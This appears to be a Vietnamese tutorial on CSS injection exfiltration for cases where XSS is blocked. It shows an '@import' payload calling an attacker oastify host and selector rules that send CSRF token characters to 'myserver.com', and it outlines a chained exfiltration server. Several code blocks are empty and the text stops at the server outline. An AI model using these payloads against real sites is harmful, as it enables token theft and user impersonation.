


# Tại sao cần khai thác trích xuất CSS

Gỉa sử ta tìm được 1 lỗ hổng HTML injection, nhưng không thể khai thác lên XSS do CSP hay DOM Purify

Thường thì các dev không để ý đến chặn CSS nên đây là lỗ hổng dễ gặp hơn XSS

Nếu có thể inject được đoạn script và nhận được response thì ta đã có thể tấn công bằng CSS - Exfiltrator:

```js
"><style>@import'//YOUR-PAYLOAD.oastify.com'</style>
```

# Các nguyên tắc CSS để trích xuất

Mục đích của css-exfiltrator là trích xuất được các thẻ, các giá trị trong thẻ. 1 trong những ví dụ cho việc này là với csrf token, thường nếu đánh cắp được mã này ta có thể đóng giả victim để gửi form


Gỉa sử với cú pháp:

```css
input[name=csrf][value^=a] { 
    background: url("https://myserver.com/token/a");
}    
```

Thì nếu trang web inject có tag `<input name="csrf" value="abc">` thì nó sẽ gửi response đến `myserver`

Nguyên tắc chính của phương pháp này là sử dụng cú pháp để trích xuất kí tự `^=`, `$=`, `*=`,... và kết hợp với 1 số cú pháp lấy dữ liệu từ bên ngoài như `background`, `background-image`, `list-style-image` để gửi gói tin ra ngoài

Với:

- `^=`: bắt đầu bằng. Như ví dụ trên, tag có `value` bắt đầu bằng `a` nó sẽ nhận css và áp dụng `background`

- `$=`: kết thúc bằng. Như ví dụ trên, với cú pháp `[value$=c]` thì sẽ nhận được gói tin
- `*=`: bao gồm. Như ví dụ trên thì với cú pháp `[value*=a]`, `[value*=b]`, `[value*=c]` đều nhận được gói tin, nhưng ta sẽ không biết được trình tự của các kí tự

Với những kiến thức này, để trích xuất token 1 trang web có input `csrf` ta sẽ có đoạn mã dạng:



Sau đó, khi nhận được gói tin về kí tự đầu tiên (ví dụ là `Y`), ta sẽ tiếp tục thay thế kí tự đầu và gửi tiếp gói tin

Với việc 1 đoạn token sẽ gồm nhiều kí tự, nên theo lí thuyết là victim phải load css nhiều lần, điều này sẽ ko phù hợp vì có thể khiến victim nhận ra, hoặc token sẽ bị thay đổi khi load lại trang hoặc cũng có thể là trích xuất ko hết value của tag

Hoặc 1 file css với tất cả trường hợp? nếu token có 32 kí tự ta cần phải có 26^32 trường hợp chẳng hạn, điều đó không khả thi

Nên ta cần phải có giải pháp, victim chỉ cần load trang 1 lần, bị inject css và nó sẽ chạy để lấy được hết value luôn

Ở đây, ta sẽ dùng `@import`, thay vì dùng `<link>` theo dạng truyền thống `@import` dùng để include file css nhưng nó sẽ thực hiện hoán đổi trực tiếp css đó (áp dụng ngay lập tức) và lợi dụng 1 số browser thực hiện song song cả việc import này và thực hiện đoạn css còn lại, ta vừa có thể thực hiện khai thác vừa có thể gửi file css mới đến

payload sẽ có dạng 



Mỗi khi nhận 1 file css, nó sẽ gọi đến file tiếp theo, server sẽ nhận gói tin về kí tự tiếp theo để gen css tiếp theo để phản hồi

Vậy khi có 2 tag cùng bắt đầu bằng 1 kí tự thì làm cách nào để phân biệt được khi gửi gói tin về?

## Sử dụng với Software

`:has` là 1 selector rất hữu dụng trong việc trích xuất css, do việc nó không cần biết cấu trúc html như nào, nó có thể ghi đè được tất cả các thuộc tính trong css

cách sử dụng 

```html
<div><input type=hidden value=1337></div>
<style>
div:has(input[value="1337"]) {
  background:url(/collectData?value=1337);
}
</style>
```

tương tự như `:has` nhưng với tác dụng ngược lại, `:not` dùng để tránh tag chỉ định

cách dùng

```html
<style>
html:has(input[name^="m"]):not(input[name="mytoken"]) {
  background:url(/m);
}
</style>
<input name=mytoken value=1337>
<input name=myname value=gareth>
```

từ 2 selector này, ta có thể trích xuất mọi thẻ mà không sợ bị trùng

# Triển khai code

Server có 4 route: 

- `/start.css` file css đầu khi import từ web victim
- `/next` để lấy file css tiếp theo sau khi nhận được kí tự đầu
- `/l`: để lấy response nhận về, kí tự nhận về
- `/c`: để lấy kí tự cuối, kết thúc chuỗi


